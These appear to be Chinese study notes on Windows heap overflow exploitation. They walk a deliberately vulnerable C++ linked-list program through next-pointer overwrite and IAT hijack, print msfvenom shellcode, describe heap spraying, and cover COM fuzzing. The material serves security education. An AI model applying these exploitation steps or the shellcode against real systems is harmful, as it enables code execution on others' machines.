堆数据基本都是链表结构

https://www.kanxue.com/chm.htm?id=14445

 堆溢出 

 1.Windows 堆的历史  

●Windows 的堆是内存中一块神秘的地方、一个耐人寻味的地方，也是一个“乱糟糟”的地方。现代操作系统在经过了若干年的演变后，目前使用的堆管理机制兼顾了内存有效利用、分配决策速度、健壮性、安全性等因素，这使得堆管理变得异常复杂。Win32 平台堆管理机制的发展大致可以分为三个阶段。 

●（1）Windows 2000～Windows XP SP1：堆管理系统只考虑了完成分配任务和性能因素，丝毫没有考虑安全因素，可以比较容易发被攻击者利用。 

●（2）Windows XP 2～Windows 2003：加入了安全因素，比如修改了块首的格式并加入安全cookie，双向链表结点在删除时会做指针验证等。这些安全防护措施使堆溢出攻击变得非常困难，但利用一些高级的攻击技术在一定情况下还是有可能利用成功。 

●（3）Windows Vista～Windows 7：不论在堆分配效率上还是安全与稳定性上，都是堆管理算法的一个里程碑。

 2.堆分配函数之间的调用关系 

●Windows 平台下的堆管理架构概图

图5.2.windows堆分配体系架构




●所有的堆分配函数最终都将使用位于 ntdll.dll 中的 RtlAllocateHeap()函数进行分配，这个函数也是在用户态能够看到的最底层的堆分配函数。所谓万变不离其宗，这个“宗”就是RtlAllocateHeap()。因此，研究 Windows 堆只要研究这个函数即可。

图5.2.2Windows堆分配API调用关系




 3.堆溢出防范 

●防范方法：1.将指针移动到上面；2.输入的时候做长度限制。

●测试案例：

```c++

//单向链表
struct tagNode
{
  char szName[8];
  struct tagNode *pNext;
};

void test(char *szPwd)
{
  tagNode *pHead = NULL; 
  tagNode *pNode = NULL; 
  FILE *fp = NULL;
    
  // 打开文件
  fp = fopen("name.txt", "r+");
  if (fp == NULL)
  {
    exit(-1);
  }
    
  // 循环读取文件
  int nRet = EOF;
  for (int i = 0; i < 3; i++)	
  {
    pNode = new struct tagNode;	// new 链表结点,说明拿到的是堆
    nRet = fscanf(fp, "%s", pNode->szName); //溢出点→堆 (溢出的代码无法执行)
    
    pNode->pNext = pHead;
    pHead = pNode;
  }
  
  // 遍历输出
  for (pNode = pHead; pNode != NULL; pNode = pNode->pNext)
  {
    printf("%s\r\n", pNode->szName);// 溢出点
  }
  
  //读文件
  pNode = pHead;
  fscanf(fp, "%s", pNode->szName);	// 溢出点
  
   //读文件
  pNode = pHead->pNext;
  fscanf(fp, "%s", pNode->szName);	// 溢出点
  
  for (pNode = pHead; pNode != NULL; pNode = pNode->pNext)
  {
    printf("%s\r\n", pNode->szName);
  }
  
  if (fp)
  {
    fclose(fp);
    fp = NULL;
  }
}

int main(int argc, char* argv[])
{
  char szPwd[] = "Hello";
  test(szPwd);				// 调用测试函数

  system("pause");
  return 0;
}
```

#### 分析：

1.  nRet = fscanf(fp, "%s", pNode->szName); ，可从这个方向入手，但是它只能堆溢出
2.  如何从堆溢出将流程转换为栈溢出呢？

1.  1.  从节点字段可知，堆溢出后，可以将下一个节点指针给淹没NODE->NEXT。
    2.  第二个fsacnf的时候，就可以流程转移到栈

1.  栈位置如何选取？

1.  1.  fscnf后即将调用的api是哪一个，就在API的IAT表调用下一条。
    2.  shellcode的代码覆盖目标IAT表




可以看到循环读数据堆溢出没什么意义





可以看到,如果我们第四次读文件数据时候溢出,就会覆盖 next (下一节点指针的值),如果我们改掉next 指针指向位置,那么我们指向哪里,下一次数据就会读到哪里 ,即我们拿到了一次向任意地址写入数据的机会,在代码区无法写入代码,因为有 gs检查,所以栈上也不行,因此我要找一个能够执行代码 或者 往那里跳  或者  从那里拿地址执行代码的地方,就算间接执行也可以 

我们可以考虑 IAT 表,  系统调API 肯定要从这里取地址,然后执行代码  我们可以把这个地址改成我们 shellcode 代码的地址,伪造一个 IAT   



我们可以选一个地址试一下是否可以写入代码





第5次读数据成功把数据读到了该地址,说明可以用



以我们需要找一个下次就要调的api地址就可以了,不能找第二个,不然可能会被覆盖



可以看到下次要调得的api 是printf ,即就要调 WriteFile



我们可以把地址写到   004301ac,后面在写代码






断点成功断下来了



接下来就是构造shellcod了

可以使用MSF

msfvenom -p windows/messagebox -f raw -b '\x0d\x0a\x0b\x20\x0c\x09' -o shellcode


shellcode:

```
BE331085B6DBDFD97424F45829C9B14531701203701283F31467432AFFFC75B824F7B792978086DBBCE598EBB78C5680BE6CECD036068CFCCD2E49B3C93B5A12EB1263458B1FF0A168AB4C95FBFF669DFA15FD17E5625887149EBEF35FEB75705E05447950195B291759D036D99514391EC2D302DC313401FDB11ECDFC2EF886F3FB8EC217FD7B7923767A95A5CC5979D70F13893E44DD6CC9A6B6E08428ABAEF0AACCB1FE5C7749BA21A0B3CF5A4C17628DE3A87DB275138A25EAF7AAF49A3499D83E52A857DAD06243AC48A7792496F182635277BEDCE12F9D90A9B7FE0E835FA1B1DC5F36215AF8E7D5FB9F82679312281B109C69538AFA87EDD16BC0CD354C984066CA7933FABD14E3922ECBC304D95B61A4756DA0BCCAA9223533809017E7B24668D704A7C627332F

BE 33 10 85 B6 DB DF D9  74 24 F4 58 29 C9 B1 45
31 70 12 03 70 12 83 F3  14 67 43 2A FF FC 75 B8
24 F7 B7 92 97 80 86 DB  BC E5 98 EB B7 8C 56 80
BE 6C EC D0 36 06 8C FC  CD 2E 49 B3 C9 3B 5A 12
EB 12 63 45 8B 1F F0 A1  68 AB 4C 95 FB FF 66 9D
FA 15 FD 17 E5 62 58 87  14 9E BE F3 5F EB 75 70
5E 05 44 79 50 19 5B 29  17 59 D0 36 D9 95 14 39
1E C2 D3 02 DC 31 34 01  FD B1 1E CD FC 2E F8 86
F3 FB 8E C2 17 FD 7B 79  23 76 7A 95 A5 CC 59 79
D7 0F 13 89 3E 44 DD 6C  C9 A6 B6 E0 84 28 AB AE
F0 AA CC B1 FE 5C 77 49  BA 21 A0 B3 CF 5A 4C 17
62 8D E3 A8 7D B2 75 13  8A 25 EA F7 AA F4 9A 34
99 D8 3E 52 A8 57 DA D0  62 43 AC 48 A7 79 24 96
F1 82 63 52 77 BE DC E1  2F 9D 90 A9 B7 FE 0E 83
5F A1 B1 DC 5F 36 21 5A  F8 E7 D5 FB 9F 82 67 93
12 28 1B 10 9C 69 53 8A  FA 87 ED D1 6B C0 CD 35
4C 98 40 66 CA 79 33 FA  BD 14 E3 92 2E CB C3 04
D9 5B 61 A4 75 6D A0 BC  CA A9 22 35 33 80 90 17  
E7 B2 46 68 D7 04 A7 C6  27 33 2F 
```


发现在 调 scanf 的崩了,猜测可能是需要调某些api,但是被我们读数据覆盖了,通过x64调试,发现是readFile, 所以需要换一个地址



为了防止readfile被覆盖,地址换成  0x00430254





修改过后弹窗出来了




#### 堆喷射

网页中用的,主要用在js

把eip的执行地址改成  0x0c0c0c0c ,去不断的申请内存 , js申请内存是从低地址往高地址申请,,如果内存大于 200M 肯定会覆盖   0x0c0c0c0c   这个地址,然后   shellcode前面全部放90,shellcode代码放在最后  ,这样如果有一块堆块覆盖了这个地址,就会沿着90一直执行到shellcode的代码


### COM漏洞挖掘

[📎COM组件漏洞分析工具.zip](./COM组件漏洞分析工具.zip)

fuzzing测试:  漏洞挖掘方法

如何寻找com中的漏洞？

-   遍历接口，对应每个接口传入不同长度的参数。如果在调用过程中程序崩溃（溢出原因），说明程序中可能有漏洞。如果不崩溃说明没有漏洞. 这也叫fuzzing测试


如何查找漏洞的具体位置？

-   fuzzing测试产生崩溃后，会定位com的信息。
-   定位异常的位置

-   -   调试com的DLL
    -   技巧：遇到第一个call 寄存器的时候就是异常的点。


#### COM Explorer( com组件查找工具)



当找到了组件后,对具体某一组件做测试,就可以用  ComRaider  了

它本身提供了一个测试的 dll



使用之前dll需要先注册





注册成功就可以通过软件找到了该 dll 的信息了,找到之后就是 用  ComRaider 做测试了


#### ComRaider（fuzzing测试工具）

-   功能：fuzzing测试com
-   原理：遍历接口，对齐传入长度不一的，查看是否导致崩溃,如果不崩溃说明没有漏洞,如果崩溃了,大概率是有漏洞

-   开始
-   


载入DLL后的界面

-   






**进行测试**

